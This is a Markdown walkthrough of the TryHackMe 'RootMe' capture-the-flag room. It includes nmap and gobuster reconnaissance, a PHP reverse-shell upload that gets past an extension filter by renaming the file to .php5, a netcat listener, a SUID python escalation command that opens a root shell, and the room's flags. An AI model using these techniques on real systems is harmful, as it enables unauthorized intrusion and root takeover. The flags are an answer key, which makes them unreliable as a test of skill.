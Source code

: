 ## ROOTME
#### A Tryhackme Exercise
___

#### Description
Gain root access to host 10.10.182.132 and answer following questions

##### **Reconnaissance**
+ How many ports are open?

      Answer: 2

+ What version of Apache is running?

      Answer: 2.4.29
+ What service is running on port 22?

      Answer: ssh
+ Find directories on the web server using the Gobuster tool.


+ What is the hidden directory?

      Answer: /panel/
___

Process

The first step in solving this problem was to do a port scan of the target. Because some of the questions ask for services and versions, I've done an aggressive scan which will return additional information.

    nmap -A 10.10.182.132
   Result:

    
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; 
    protocol 2.0)
    | ssh-hostkey: 
    |   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
    |   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
    |_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: HackIT - Home

Here we note 998 closed ports and 2 open ports: 
+ 22 tcp open ssh
+ 80 tcp open http

This helps us answer some of the above questions. We note there are **2 open ports** The version of Apache that is running is **2.4.29** and we note that the service that is running on port 22 is **ssh**

To find the hidden directory I first used the **gobuster** tool to return a list of directories from this host

      root@ip-10-10-121-131:~# gobuster dir --url http://10.10.182.132/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Result: 

      /uploads (Status: 301)
      /css (Status: 301)
      /js (Status: 301)
      /panel (Status: 301)
      /server-status (Status: 403)

using gobuster command we get a result of 5 different directories. Next step is to take a look at the front end of the address and check each one of these directories. 

<front end page image here>

This is a pretty honest write-up. There is nothing that I can find that determines which of the directories are hidden- but by trial of elimination we know that /panel is our hidden directory. This directory has a file upload feature. 

<image of panel section goes here> 

___
##### **Getting A Shell**

+ Find a form to upload and get a reverse shell, and find the flag in user.txt

      Answer: THM{y0u_g0t_a_sh3ll}

Process

To get shell access the only possible vulnerability I can find is the panel directory that allows you to upload files. If we can upload a file with malicious code it can potentially give us shell access. To do this We look into the Reverse Shell Cheat Sheet offered by pentestmonkey.net

Out of the many options listed, we note that PHP offers an option to upload a php reverse shell file to gain shell access via http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

According to the documentation, we need to edit the file to adjust the directed IP and the port number we will use. Additionally we want to make sure to use netcat to listen on this port number. 

      $ip = '127.0.0.1';  // CHANGE THIS
      $port = 1234;       // CHANGE THIS

At first, there was some trouble uploading to the site as the site did not accept .php files. However reading the documentation, it states that a different version of PHP such as PHP5 should be used when working with web servers, so we **change our file name extension to .php5**

We listen to port, in this case I am using port 9999

     nc -lnvp 9999
And upload the .php5 file. Once the file has been uploaded we can visit the uploads directory and run the program to see if we gain shell access. 

<add uploads image here>

This gives us shell access!

To answer the assignment question, we search for the file "user.txt" using the following command: 

     $ find / -type f -name user.txt 2>/dev/null
     /var/www/user.txt

     $ cat /var/www/user.txt
     THM{y0u_g0t_a_sh3ll}

Using the Cat command we note the message inside of the user.txt file.

___
##### **Privilege Escalation**

+ Search for files with SUID permission, which file is weird? 
      
      Answer: /usr/bin/python

+ Find a form to escalate your privileges.
      


+ Message inside of root.txt
      
      Answer: THM{pr1v1l3g3_3sc4l4t10n}

To find files with (set user ID permissions) I searched for files with user root permissions and see what that command returns: 
      
     find / -user root -perm /4000 2>/dev/null

+ this search command finds files owned by the root user
+ 4000 - finds files specifically with the SUID permission set
+  2>/dev/null - redirects error messages

This returns multiple files. The first question "which file is weird" is quite tough to answer as I am not sure what there is to look for. By process of elimination, I find that the correct answer here is /usr/bin/python

To find a form to escalate privileges and take a look at the root.txt file, we were given a hint to search for GTFobins. 

gtfobins is a list of unix binaries that can be used to bypass security restrictions, documentation and collection of commands can be found: https://gtfobins.github.io/


      python -c 'import pty;pty.spawn ("/bin/bash")'
      python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
      # whoami
      whoami
      root

Once we have root, we search for the root.txt file in question, and use CAT to peek inside. 

      find / -type f -name root.txt 2>/dev/null
      /root/root.txt
      # cat /root/root.txt
      cat /root/root.txt
      THM{pr1v1l3g3_3sc4l4t10n}











 





















